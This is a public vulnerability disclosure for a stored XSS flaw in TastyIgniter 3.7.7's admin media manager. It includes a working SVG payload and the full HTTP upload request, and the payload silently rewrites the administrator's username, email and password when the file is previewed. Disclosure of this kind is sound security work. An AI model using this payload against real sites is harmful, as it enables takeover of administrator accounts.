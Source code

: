# CVE-2025-61417 — Stored XSS (Cross-Site Scripting)

---

**Vulnerability Type:** Cross-Site Scripting (XSS)  
**Vendor of Product:** [Tastyigniter](https://github.com/tastyigniter)   
**Affected Product:** TastyIgniter - 3.7.7  
**Attack Type:** Remote  
**Affected Component:** `admin/media_manager` feature built into the application (upload image).  
**Severity:** ??  
**Disclosure status:** Public  
**Impact:** Exploitation can lead to full administrative account takeover (modify admin username, email, password).

---

## Description

A stored cross-site scripting (XSS) vulnerability exists in TastyIgniter 3.7.7, affecting the `/admin/media_manager` component. Attackers who can upload files may craft a malicious SVG file containing JavaScript. When an administrator previews the SVG in the admin interface, the embedded script executes within the admin's browser context. This allows the attacker to modify the admin account credentials, enabling full account takeover.

---

## Steps to Reproduce

1. Go to `http://127.0.0.1:8000/admin/media_manager` and upload a crafted `.svg` file containing a malicious script.
   
   Example SVG Payload:
   ```xml
   <svg xmlns="http://www.w3.org/2000/svg">
     <script><![CDATA[
       fetch("http://127.0.0.1:8000/admin/staffs/account?_method=PATCH&Staff%5Bstaff_name%5D=Hacked&Staff%5Bstaff_email%5D=hacked%40gmail.com&Staff%5Buser%5D%5Busername%5D=Hacked&Staff%5Blanguage_id%5D=1&Staff%5Buser%5D%5Bpassword%5D=123456&Staff%5Buser%5D%5Bpassword_confirm%5D=123456", {
         method: "GET",
         credentials: "include",
         headers: {
           "X-Requested-With": "XMLHttpRequest",
           "X-IGNITER-REQUEST-HANDLER": "onSave"
         }
       });
     ]]></script>
   </svg>

2. Once the malicious SVG is uploaded, an admin browses to the Media Manager and previews the file. The embedded JavaScript executes in the admin's browser context.
3. The script sends an authenticated `PATCH` request (with valid headers like `X-Requested-With` and `X-IGNITER-REQUEST-HANDLER`) to `/admin/staffs/account`, modifying the admin's username, email, name, and password.
4. This results in a full account hijack of the administrator without their knowledge.


## HTTP Request (To Upload the Malicious SVG)
```
POST /admin/media_manager HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
X-CSRF-TOKEN: KS9zbdPKPBt6IZIdC9rGqRwi8dYyy5AovnQ3B0oQ
X-IGNITER-FILEUPLOAD: mediamanager
Content-Type: multipart/form-data; boundary=----geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Length: 723
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/admin/media_manager
Cookie: <Cookie>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Disposition: form-data; name="path"
/ 
------geckoformboundary572b120aaa61d256c4b644dd4c854b1a
Content-Disposition: form-data; name="file_data"; filename="CSRF.svg"
Content-Type: image/svg+xml

<svg xmlns="http://www.w3.org/2000/svg">
  <script><![CDATA[
    fetch("http://127.0.0.1:8000/admin/staffs/account?_method=PATCH&Staff%5Bstaff_name%5D=HackedStaff&Staff%5Bstaff_email%5D=hacked%40gmail.com&Staff%5Buser%5D%5Busername%5D=HackedStaff&Staff%5Blanguage_id%5D=1&Staff%5Buser%5D%5Bpassword%5D=123456&Staff%5Buser%5D%5Bpassword_confirm%5D=123456", {
      method: "GET",
      credentials: "include",
      headers: {
        "X-Requested-With": "XMLHttpRequest",
        "X-IGNITER-REQUEST-HANDLER": "onSave"
      }
    });
  ]]></script>
</svg>
------geckoformboundary572b120aaa61d256c4b644dd4c854b1a--

```

## HTTP Response (On Successful Upload)
```
HTTP/1.0 200 OK
Host: 127.0.0.1:8000
Date: Wed, 16 Jul 2025 08:10:42 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Cache-Control: no-cache, private
Content-Type: application/json

{
  "link": "\/\/CSRF.svg",
  "result": "success"
}

```


